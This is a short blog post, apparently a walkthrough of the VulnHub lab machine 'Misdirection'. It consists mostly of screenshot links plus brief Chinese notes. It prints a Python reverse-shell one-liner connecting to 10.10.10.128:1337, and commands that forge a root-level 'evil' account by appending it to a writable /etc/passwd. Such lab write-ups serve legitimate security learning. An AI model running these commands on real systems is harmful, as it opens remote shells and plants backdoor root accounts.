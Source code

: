 ```yaml
---
layout: post
title:  "vulnhub >_ Misdirection"
description: walkthrough
category: vulnhub
---
```

# Misdirection

![image-20200620201738035]({{ site.url }}/assets/Misdirection.assets/image-20200620201738035.png)



![image-20200620201922393]({{ site.url }}/assets/Misdirection.assets/image-20200620201922393.png)



![image-20200620203206697]({{ site.url }}/assets/Misdirection.assets/image-20200620203206697.png)





![image-20200620204041701]({{ site.url }}/assets/Misdirection.assets/image-20200620204041701.png)



![image-20200620205831163]({{ site.url }}/assets/Misdirection.assets/image-20200620205831163.png)

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.128",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![image-20200620210205666]({{ site.url }}/assets/Misdirection.assets/image-20200620210205666.png)

![image-20200620210736685]({{ site.url }}/assets/Misdirection.assets/image-20200620210736685.png)



![image-20200620211706511]({{ site.url }}/assets/Misdirection.assets/image-20200620211706511.png)

passwd可写。

直接增加用户即可

首先先制作用户的hash

```bash
openssl passwd -1 -salt evil abcdef
```

![image-20200619115605888]({{ site.url }}/assets/Misdirection.assets/image-20200619115605888.png)

`$1$evil$PJUrXHFg5Juh42jLCKQs10`

然后仿照passwd文件格式伪造用户信息

```bash
evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash
```

```bash
echo 'evil:$1$evil$PJUrXHFg5Juh42jLCKQs10:0:0::/root:/bin/bash' >> /etc/passwd
```

![image-20200620212243538]({{ site.url }}/assets/Misdirection.assets/image-20200620212243538.png)

![image-20200620212534003]({{ site.url }}/assets/Misdirection.assets/image-20200620212534003.png)
